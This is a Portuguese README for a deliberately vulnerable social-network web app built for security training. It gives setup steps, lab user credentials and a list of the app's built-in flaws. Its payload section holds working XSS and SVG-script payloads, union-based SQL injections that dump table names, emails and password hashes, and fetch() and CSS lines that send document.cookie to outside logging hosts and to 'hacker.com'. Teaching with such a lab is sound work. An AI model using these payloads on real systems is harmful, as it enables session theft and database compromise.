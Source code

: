 # Damn Vulnerable Social Network

Uma aplicação vulnerável indicada para testes e entendimento de conceitos de segurança em Aplicações WEB

Requisitos:
- Java 17
- Node 19
- Docker
- Docker Compose
- Postgres instalado. (Caso não tenha o Docker e Docker Compose)

## Rodar a aplicação

### 1. Subir o banco de dados utilizando o Docker Compose. Rodar o comando abaixo na pasta raíz do projeto.
```
docker-compose up
```

### 2. Criação do banco de dados.

- Entrar na pasta **dvsn** e executar o script:
```bash
$ ./create-database.sh
```

### 3. Entrar na pasta do front (dvsn-client) e dar build no projeto, para que os arquivos sejam colocados ná pasta estática da api.

NPM:
```
npm install
npm build
```
YARN:
```
yarn
yarn build
```

### 4. Abrir o IntelliJ e rodar a aplicação.
Main Class -> RootApplication.java

## Usuários disponíveis
|Email|Hash Senha|Senha|Admin|
|-|-|-|-|
|bob@mail.com|0acf4539a14b3aa27deeb4cbdf6e989f|michael|Sim|
|jimi@mail.com|061fba5bdfc076bb7362616668de87c8|lovely|Não|
|jim@mail.com|5f4dcc3b5aa765d61d8327deb882cf99|password|Não|
|amy@mail.com|d8578edf8458ce06fbc5bb76a58c5ca4|qwerty|Não|
|janis@mail.com|46f94c8de14fb36680850768ff1b7f2a|123qwe|Não|

## Comandos extras:
Gerar certificado para o servidor apache2.
```sh
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

## Assuntos abordados:

- OWASP TOP 10
- XSS
- CSRF
- Cookies (HttpOnly, Secure, SameSite)
- Alguns cuidados com LocalStorage e SessionStorage
- Como manter componentes/frameworks/libs seguras e atualizadas
- Cabeçalhos CSP e X-Frame-Options

## Software Composition Analysis (SCA)
- NodeJS/JavaScript: <a href="https://www.npmjs.com/package/yarn-audit-html">yarn audit html report</a>

## Vulnerabilidades
- SQL Injection
    - Login
    - Pesquisa de usuários
- XSS
    - Reflected
        - /hello?nome=Bob
    - DOM
        - Filtro na listagem de POSTS
    - Stored
        - Comentários dos posts    
- Cookie
    - É apenas um base64 e a aplicação confia no que o cliente envia.

fetch('https://servidor-de-log.free.beeceptor.com/todos?cookie=' +  document.cookie)
fetch('http://logger.crescer.lab/?cookie=' +  document.cookie)

## Payloads:
- XSS
```html
<img src="a" onerror="alert('XSS')" />
```
- SVG
```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS");
  </script>
</svg>
```
- SQL Injection (Login)
- SQL Injection (Lista de usuários)
```sql
' union select 1, '2', '3', '4', '5', '6', 1, now(), now()--
```
```sql
' union select floor(random() * 1000), '2', table_name, '4', '5', '6', 1,now(), now() from information_schema.tables where table_schema = 'public'--
```
```sql
' union select floor(random() * 1000), table_name, column_name, '4', '5', '6', 1,now(), now() from information_schema.columns where table_schema = 'public'--
```
```sql
' union select floor(random() * 1000), '2', string_agg(column_name,','), '4', '5', '6', 1,now(), now() from information_schema.columns where table_name = 'usuario'--
```
```sql
' union select floor(random() * 1000), '2', concat(email,' ' ,senha), '4', '5', '6', 1,now(), now() from usuario--
```

https://github.com/payloadbox/sql-injection-payload-list
- CSS Injection
/hello?nome=Teste#red;margin-left:50px;background-image:url('http://localhost:8080/favicon.ico')
- expression(document.write('<iframe src=" .= "http://hacker.com?cookie=' + document.cookie.escape() + " />'))
background-image: url(javascript:alert('XSS'))
https://www.mediawiki.org/wiki/Preventing_XSS_Attacks_through_CSS_Whitelisting

## TODO
- <s>Prevenção de XSS configurável.</s>
- <s>Prevenção de SQL Injection configurável.</s>
- <s>Adicionar XSS em SVG e CSS.</s>
- <s>Validar tipos de autenticação e adicionar Token Opaco.</s>
- Adicionar cabeçalhos CSP e X-Frame-Options configuráveis.
- Adicionar certificados SSL.


## Exemplos de vulnerabilidades:
- <a href="https://security.snyk.io/vuln/SNYK-JS-MATERIALIZECSS-2324800">XSS materialize-css</a>

## Referências
https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval
https://github.com/payloadbox/xss-payload-list
